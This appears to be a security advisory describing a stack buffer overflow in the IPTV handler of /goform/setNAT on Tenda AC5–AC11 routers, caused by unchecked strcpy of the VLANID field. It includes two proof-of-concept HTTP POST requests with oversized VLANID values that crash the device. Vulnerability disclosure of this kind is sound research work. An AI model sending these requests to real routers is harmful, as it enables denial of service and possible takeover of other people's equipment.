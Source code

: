 # Tenda Router Vulnerability

This vulnerability exists in in  module `IPTV` of `/goform/setNAT` and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

On the `/goform/setNAT` page, there is a stack overflow vulnerability that allows an attacker to execute arbitrary code with a well-designed POST request, or to to complete a denial of service attack.

![pic/Untitled.png](pic/Untitled.png)

1. There is no restriction on the `VlanID` and `VlanArea` we input.
2. When we enter `VLANAREA` equal to 1, the program will jump to LABEL_6, which will take the VLANID we entered, using `strcpy(v40, v14);` to copy to v40, which is prone to stack  buffer overflow.
3.  When we enter `VLANAREA` equal to 2, it will take the `VLANID` we enter, using `strcpy(v37, v9);`  copy to v37, which is also prone to stack buffer overflow.

## POC

```
POST /goform/setNAT HTTP/1.1
Host: 192.168.0.1
Content-Length: 57
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: [http://192.168.0.1](http://192.168.0.1)
Referer: [http://192.168.0.1/index.html](http://192.168.0.1/index.html)
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=IPTV&IPTVEn=true&VLANArea=1&VLANID=aaaaaaaaa&VLANSelect=
```

```
POST /goform/setNAT HTTP/1.1
Host: 192.168.0.1
Content-Length: 60
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=IPTV&IPTVEn=true&VLANArea=2&VLANID=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&VLANSelect=
```

### Verify

Vulnerability demo

![pic.png](pic/Untitled%201.png)

![pic/Untitled%202.png](pic/Untitled%202.png)

If the number of characters were longer, it would be enough to overflow.